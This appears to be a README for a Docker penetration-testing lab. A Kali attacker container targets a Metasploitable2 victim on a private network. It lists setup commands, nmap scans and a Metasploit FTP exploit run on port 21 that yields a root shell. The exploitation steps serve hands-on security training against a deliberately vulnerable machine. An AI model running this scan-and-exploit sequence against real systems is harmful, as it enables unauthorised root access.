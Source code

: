
## Setup 

```bash
make up
make ps
```

```bash
make logs container=meta2
make logs container=kali 
```

```bash
make access container=meta2
make access container=kali
```

In each container, run:

```bash
ifconfig # you should see 172.20.0.3 for the attacker and 172.20.0.2 for the victim 
```

From kali, run:

```bash
nmap -F 172.20.0.2
```

```bash
make down
```

## Penetration

From kali:

```bash
nmap -sV -p 21 172.20.0.2
```

```bash
msfconsole
use 1
set rhosts 172.20.0.2
set rport 21
exploit
```

Now to check previliges, directly type:

```bash
touch you_are_pwned
```

```bash
whoami #root
```

